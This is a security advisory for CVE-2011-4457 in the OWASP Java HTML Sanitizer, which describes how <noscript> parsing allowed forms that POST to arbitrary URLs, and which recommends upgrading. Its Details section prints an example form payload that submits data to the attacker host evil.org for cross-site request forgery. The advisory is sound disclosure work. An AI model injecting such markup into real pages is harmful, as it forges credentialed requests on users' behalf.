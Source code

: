# CVE-2011-4457 #

A vulnerability in the [OWASP HTML Sanitizer](http://code.google.com/p/owasp-java-html-sanitizer/)
allows redirecting or POSTing to an arbitrary URL when the user
interacts with sanitized content and when JavaScript is disabled.

It also allows inclusion of links without "[rel=nofollow](http://microformats.org/wiki/rel-nofollow)" when JavaScript is disabled.
Crawlers that respect `nofollow` and which look for links inside `<noscript>...</noscript>` could conclude a containing page has link-spam.

Due to the constrained circumstances and the fact that it does not
allow exfiltration of data protected by the same-origin policy it is
considered low risk.  For policies that allow external links, the
escalation of privilege only includes POSTing, possibly including
upload of files chosen by the user.

We recommend upgrading to [release 88](http://code.google.com/p/owasp-java-html-sanitizer/source/detail?r=88) or later available via
[downloads](http://code.google.com/p/owasp-java-html-sanitizer/downloads/list)
which does not break API compatibility with the previous release.

The project CHANGE log is available at
http://owasp-java-html-sanitizer.googlecode.com/svn/trunk/CHANGE_LOG.html

## Details ##

The attack hinges on the way `<noscript>` was parsed and rendered.

```
<noscript>
  <form method=POST action=http://evil.org/>
    <input name=x value=y>
    <input type=submit>
  </form>
</noscript>
```

will POST `x=y` to `http://evil.org/` when the submit button is pressed
and when the user has javascript turned off as when running the NoScript extension.

The POST will carry user credentials so a vulnerable page can be used to initiate XSRF against vulnerable servers.